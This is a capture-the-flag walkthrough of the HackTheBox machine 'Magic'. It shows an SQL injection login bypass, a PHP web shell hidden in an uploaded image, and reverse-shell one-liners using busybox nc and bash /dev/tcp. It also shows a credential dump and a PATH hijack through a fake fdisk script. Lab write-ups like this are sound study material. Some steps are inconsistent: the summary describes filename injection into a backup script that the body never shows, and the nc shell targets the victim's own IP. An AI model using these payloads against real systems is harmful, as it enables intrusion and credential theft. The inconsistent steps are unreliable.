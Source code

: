 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "magic", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


Magic presents a Linux web application vulnerable to both insecure file uploads and unsafe PHP function usage.
The initial foothold came from bypassing upload filters using crafted file extensions and manipulating MIME types.
Once a shell was established, local enumeration revealed a custom backup script running as root that unsafely parsed filenames.
Exploitation involved injecting commands through file names, leading to root shell.
Magic is a textbook case of chaining simple web bugs into full privilege escalation via local logic flaws.

OS: Linux

Difficulty: Medium

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### 80-HTTP

![screenshot](/assets/images/magic1.png)

> "Please **[Login](http://10.10.10.185/login.php)**, to upload images."

#### login.php

![screenshot](/assets/images/magic2.png)

#### Fuzzing

```sh
ffuf -u http://{target IP} -H "Host: FUZZ.magic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://{target IP} -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi

`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 

## Foothold

### File Upload - Bypass filters

Download an actual image, and add `<?php echo system($_GET["cmd"]);?>` .

![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id

![screenshot](/assets/images/magic8.png)

Verified that the command injection worked.

```sh
# original payload
busybox nc 10.10.10.185 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.10.185%20443%20-e%20%2Fbin%2Fsh
```

Execute the command

![screenshot](/assets/images/magic10.png)

Getting a shell and upgrading it to interactive shell

![screenshot](/assets/images/magic11.png)

## Privilege Escalation

### Enumeration

`/var/www/Magic/db.php5` contains credentials.

![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)

![screenshot](/assets/images/magic14.png)

Dump the database using *mysqldump*

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

Obtained another credential.

### Shell as theseus

`su` with the newly obtained credential.

![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic25.png)

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```
![screenshot](/assets/images/magic26.png)
